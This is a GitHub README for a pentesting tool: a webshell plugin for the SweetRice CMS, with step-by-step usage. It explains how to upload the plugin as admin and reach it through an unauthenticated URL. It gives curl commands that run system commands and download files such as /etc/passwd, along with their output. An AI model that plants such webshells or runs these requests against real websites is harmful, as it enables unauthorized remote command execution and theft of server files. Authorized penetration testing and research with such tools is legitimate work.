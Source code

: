 # SweetRice webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a SweetRice website.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/SweetRice-webshell-plugin">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for SweetRice.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the SweetRice website.

### Step 1: Upload the webshell plugin

First, login with admin rights on the SweetRice website and go to "_Plugin List_" page, at http://127.0.0.1:10080/as/?type=plugins, and upload the plugin with the "Add Plugin" form:

![](./.github/plugin_add_new.png)

Upload the plugin, and click on "_Install the plugin_":

![](./.github/install_plugin.png)

You can now access the webshell plugin to either one of these two URLs:

 - (**Authenticated**) `http://127.0.0.1:10080/as/?type=plugin&plugin=WebShell`
   + You need to be authenticated as admin to access this URL.
 - (**Unauthenticated**) `http://127.0.0.1:10080/_plugin/webshell/webshell.php`
   + The template of this URL is `http://127.0.0.1:10080/_plugin/ZIPNAME/webshell.php` with `ZIPNAME` being the name of the plugin zip file uploaded in SweetRice.

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request with `action=exec&cmd=id` to either one of the two URLs:

```sh
$ curl -X POST 'http://127.0.0.1:10080/_plugin/webshell/webshell.php?action=exec&cmd=id' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request with `action=download&cmd=/etc/passwd` to either one of the two URLs:
 
```sh
$ curl -X POST 'http://127.0.0.1:10080/_plugin/webshell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.



## References
 - https://www.sweetrice.xyz/
